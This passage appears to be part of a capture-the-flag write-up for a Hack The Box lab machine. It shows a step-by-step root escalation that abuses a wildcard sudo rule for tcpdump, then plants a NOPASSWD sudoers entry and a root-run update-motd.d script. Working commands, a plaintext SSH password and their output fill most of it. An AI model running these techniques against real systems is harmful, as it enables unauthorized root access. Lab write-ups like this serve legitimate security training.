        -w/var/cache/captures/*/[0-9a-f][0-9a-f][0-9a-f][0-9a-f][0-9a-f][0-9a-f][0-9a-f][0-9a-f]-[0-9a-f][0-9a-f][0-9a-f][0-9a-f]-[0-9a-f][0-9a-f][0-9a-f][0-9a-f]-[0-9a-f][0-9a-f][0-9a-f][0-9a-f]-[0-9a-f][0-9a-f][0-9a-f][0-9a-f][0-9a-f][0-9a-f][0-9a-f][0-9a-f][0-9a-f][0-9a-f][0-9a-f][0-9a-f]
        -F/var/cache/captures/filter.[0-9a-f][0-9a-f][0-9a-f][0-9a-f][0-9a-f][0-9a-f][0-9a-f][0-9a-f]-[0-9a-f][0-9a-f][0-9a-f][0-9a-f]-[0-9a-f][0-9a-f][0-9a-f][0-9a-f]-[0-9a-f][0-9a-f][0-9a-f][0-9a-f]-[0-9a-f][0-9a-f][0-9a-f][0-9a-f][0-9a-f][0-9a-f][0-9a-f][0-9a-f][0-9a-f][0-9a-f][0-9a-f][0-9a-f]
www-data@dump:/var/www/database$

```

With possible directory traversal in the `-w` flag, I'll try traversing the directory to /tmp via `../`, while fulfilling the regex pattern to match a UUID. I'll also specify a filter expression for the tcpdump to capture using `port 80`.

**filter.aaaaaaaa-aaaa-aaaa-aaaa-aaaaaaaaaaaa
```
www-data@dump:/var/cache/captures$ echo -n 'port 80' > filter.aaaaaaaa-aaaa-aaaa-aaaa-aaaaaaaaaaaa
www-data@dump:/var/cache/captures$ ls -la
total 20
drwxr-xr-x  3 www-data www-data 4096 May 26 16:33 .
drwxr-xr-x 10 root     root     4096 Mar  5  2023 ..
drwxr-x---  2 www-data www-data 4096 May 26 16:10 dbcd3f59-aacc-4fcb-81d5-e818e0f07daf
-rw-r--r--  1 www-data www-data    7 May 26 16:33 filter.aaaaaaaa-aaaa-aaaa-aaaa-aaaaaaaaaaaa
-rw-r--r--  1 www-data www-data   10 May 26 15:20 filter.dbcd3f59-aacc-4fcb-81d5-e818e0f07daf
www-data@dump:/var/cache/captures$

```

Commands ran
```
# Host machine
www-data@dump:/var/cache/captures$ sudo /usr/bin/tcpdump -c10  -w/var/cache/captur../../images/dump/../../images/dump/../../images/dump/../tmp/aaaaaaaa-aaaa-aaaa-aaaa-aaaaaaaaaaaa -F/var/cache/captures/filter.aaaaaaaa-aaaa-aaaa-aaaa-aaaaaaaaaaaa
tcpdump: listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
6 packets captured
6 packets received by filter
0 packets dropped by kernel
www-data@dump:/var/cache/captures$

# Local machine
┌──(geedorah㉿kali)-[~/Desktop/htb/easy]
└─$ nc -vz 10.129.234.97 80
10.129.234.97: inverse host lookup failed: Unknown host
(UNKNOWN) [10.129.234.97] 80 (http) open


```


Checking the file output on `/tmp`, this confirms directory traversal is possible. It also shows the file is generated by tcpdump. 
```bash
www-data@dump:/var/cache/captures$ ls -la /tmp
total 12
drwxrwxrwt  2 root    root    4096 May 26 16:38 .
drwxr-xr-x 18 root    root    4096 Oct 21  2025 ..
-rw-r--r--  1 tcpdump tcpdump  532 May 26 16:39 aaaaaaaa-aaaa-aaaa-aaaa-aaaaaaaaaaaa
www-data@dump:/var/cache/captures$

```




Since `*` allows anything in between when running the privileged tcpdump command, it's possible to include additional flags via crafting the command in this manner by including 2 `-w` flags. `tcpdump` will accept the last argument by default if there's a duplicate.

Running the tcpdump command shows immediate success.
```
www-data@dump:/tmp$ sudo /usr/bin/tcpdump -c10  -w/var/cache/captures/test  -w/tmp/aaaaaaaa-aaaa-aaaa-aaaa-aaaaaaaaaaab -F/var/cache/captures/filter.aaaaaaaa-aaaa-aaaa-aaaa-aaaaaaaaaaaa

www-data@dump:/tmp$ ls -la
total 16
drwxrwxrwt  2 root    root    4096 May 26 16:45 .
drwxr-xr-x 18 root    root    4096 Oct 21  2025 ..
-rw-r--r--  1 tcpdump tcpdump  532 May 26 16:39 aaaaaaaa-aaaa-aaaa-aaaa-aaaaaaaaaaaa
-rw-r--r--  1 tcpdump tcpdump  532 May 26 16:46 aaaaaaaa-aaaa-aaaa-aaaa-aaaaaaaaaaab
www-data@dump:/tmp$


```

I can now include another flag `-Z`, which allows me to specify the user to run this tcpdump as. 

I have arbitrary file write as root.
```
www-data@dump:/tmp$ sudo /usr/bin/tcpdump -c10  -w/var/cache/captures/test -Z root -w/tmp/aaaaaaaa-aaaa-aaaa-aaaa-aaaaaaaaaaac -F/var/cache/captures/filter.aaaaaaaa-aaaa-aaaa-aaaa-aaaaaaaaaaaa
tcpdump: listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
10 packets captured
14 packets received by filter
0 packets dropped by kernel
www-data@dump:/tmp$ ls -la
total 20
drwxrwxrwt  2 root    root    4096 May 26 16:53 .
drwxr-xr-x 18 root    root    4096 Oct 21  2025 ..
-rw-r--r--  1 tcpdump tcpdump  532 May 26 16:39 aaaaaaaa-aaaa-aaaa-aaaa-aaaaaaaaaaaa
-rw-r--r--  1 tcpdump tcpdump  532 May 26 16:46 aaaaaaaa-aaaa-aaaa-aaaa-aaaaaaaaaaab
-rw-r--r--  1 root    root     880 May 26 16:54 aaaaaaaa-aaaa-aaaa-aaaa-aaaaaaaaaaac
www-data@dump:/tmp$

```


I can leverage this to write to the `/etc/sudoers.d/` directory, which will attempt to parse any files in its directory to include sudo permissions. Even though the filename we control is restricted to a UUID naming scheme, it is still considered valid in `/etc/sudoers.d`.

**sudofile**
```

fritz ALL=(ALL:ALL) NOPASSWD: ALL

```


Using the tcpdump command, I'll write the file to `/etc/sudoers.d/aaaaaaaa-aaaa-aaaa-aaaa-aaaaaaaaaaac` as root user and send my poisoned `sudofile` to the tcpdump traffic, storing it as output.
```bash
# Host machine
www-data@dump:/tmp$ sudo /usr/bin/tcpdump -c10  -w/var/cache/captures/test -Z root -w/etc/sudoers.d/aaaaaaaa-aaaa-aaaa-aaaa-aaaaaaaaaaac -F/var/cache/captures/filter.aaaaaaaa-aaaa-aaaa-aaaa-aaaaaaaaaaaa
tcpdump: listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
10 packets captured
10 packets received by filter
0 packets dropped by kernel
www-data@dump:/tmp$

# Local machine
┌──(geedorah㉿kali)-[~/Desktop/htb/easy]
└─$ cat sudofile | nc -q 1 10.129.234.97 80
HTTP/1.1 400 Bad Request
Date: Tue, 26 May 2026 17:19:46 GMT
Server: Apache/2.4.65 (Debian)
Content-Length: 301
Connection: close
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
<hr>
<address>Apache/2.4.65 (Debian) Server at 127.0.1.1 Port 80</address>
</body></html>


```


In the SSH session as **fritz**, even though garbage lines are parsed, the poisoned sudo permission took effect.


I can change my user to root.
```
fritz@dump:/var/cache/captures$ sudo su root
root@dump:/var/cache/captures# whoami
root
root@dump:/var/cache/captures#

```


Alternate path to root
---

There is also another [way](https://manpages.ubuntu.com/manpages/focal/man5/update-motd.5.html) to get root, which is via the `/etc/update-motd.d` folder. 
Whenever a user logs in via SSH, any executable scripts in `/etc/update-motd.d` will be ran as root.



Unlike `sudoers.d`, which will recover from a syntax error and proceed to a newline eventually hitting `fritz ALL=(ALL:ALL) NOPASSWD: ALL`, update-motd.d will stop executing on the first bad command as it is interpreted as a script.
In order to leverage this directory, I have to include my payload in the script, and also remove the gibberish produced by tcpdump's output. update-motd.d will stop executing upon the first bad command.

There is a way to do this via the `-Z` flag on tcpdump to set the owner of the file as `fritz` which I control, and edit the file manually to craft a proper payload. This is possible because `PAM_MOTD` will execute the files as root regardless of the file owner.

I'll change the user to fritz and send the file to `/etc/update-motd.d/`.
```bash
# Host machine
www-data@dump:/tmp$ sudo /usr/bin/tcpdump -c10  -w/var/cache/captures/test -Z fritz -w/etc/update-motd.d/aaaaaaaa-aaaa-aaaa-aaaa-aaaaaaaaaaac -F/var/cache/captures/filter.aaaaaaaa-aaaa-aaaa-aaaa-aaaaaaaaaaaa

# Local machine
┌──(geedorah㉿kali)-[~]
└─$ cat 'trigger' | nc -q 1 10.129.234.97 80 

```

In my SSH session, the file is present and owned by fritz.
```bash
fritz@dump:/etc/update-motd.d$ ls -la
total 16
drwxr-xr-x  2 root  root  4096 May 27 03:53 .
drwxr-xr-x 74 root  root  4096 May 27 03:41 ..
-rwxr-xr-x  1 root  root    23 Apr  4  2017 10-uname
-rw-r--r--  1 fritz fritz  883 May 27 03:53 aaaaaaaa-aaaa-aaaa-aaaa-aaaaaaaaaaac
fritz@dump:/etc/update-motd.d$

```


I can edit the file and add my malicious payload, then trigger PAM authentication via ssh login, executing the script `aaaaaaaa-aaaa-aaaa-aaaa-aaaaaaaaaaac` as root.
```bash
fritz@dump:/etc/update-motd.d$ echo '#!/bin/bash' > aaaaaaaa-aaaa-aaaa-aaaa-aaaaaaaaaaac
fritz@dump:/etc/update-motd.d$ echo 'cat /root/root.txt > /tmp/root.txt' >> aaaaaaaa-aaaa-aaaa-aaaa-aaaaaaaaaaac
fritz@dump:/etc/update-motd.d$ chmod +x aaaaaaaa-aaaa-aaaa-aaaa-aaaaaaaaaaac
fritz@dump:/etc/update-motd.d$ exit
logout
Connection to 10.129.234.97 closed.

┌──(geedorah㉿kali)-[~/…/htb/hard/dump/zip]
└─$ sshpass -p 'Passw0rdH4shingIsforNoobZ!' ssh fritz@10.129.234.97
Linux dump 5.10.0-36-cloud-amd64 #1 SMP Debian 5.10.244-1 (2025-09-29) x86_64
Last login: Wed May 27 04:01:31 2026 from 10.10.14.77
fritz@dump:~$ ls -la /tmp
total 52
drwxrwxrwt 11 root root 4096 May 27 04:02 .
drwxr-xr-x 18 root root 4096 Oct 21  2025 ..
drwxrwxrwt  2 root root 4096 May 26 14:37 .ICE-unix
drwxrwxrwt  2 root root 4096 May 26 14:37 .Test-unix
drwxrwxrwt  2 root root 4096 May 26 14:37 .X11-unix
drwxrwxrwt  2 root root 4096 May 26 14:37 .XIM-unix
drwxrwxrwt  2 root root 4096 May 26 14:37 .font-unix
-rw-r--r--  1 root root   14 May 27 03:19 hacked
-rw-r--r--  1 root root   33 May 27 04:02 root.txt
drwx------  3 root root 4096 May 26 14:52 systemd-private-5a70648e0ceb47548b6be2cf3e7a6ed8-apache2.service-Y24wsh
drwx------  3 root root 4096 May 26 14:52 systemd-private-5a70648e0ceb47548b6be2cf3e7a6ed8-chrony.service-av8Rqg
drwx------  3 root root 4096 May 26 14:52 systemd-private-5a70648e0ceb47548b6be2cf3e7a6ed8-systemd-logind.service-mlq6Sf
drwx------  2 root root 4096 May 26 14:52 vmware-root_366-558536495
fritz@dump:~$

```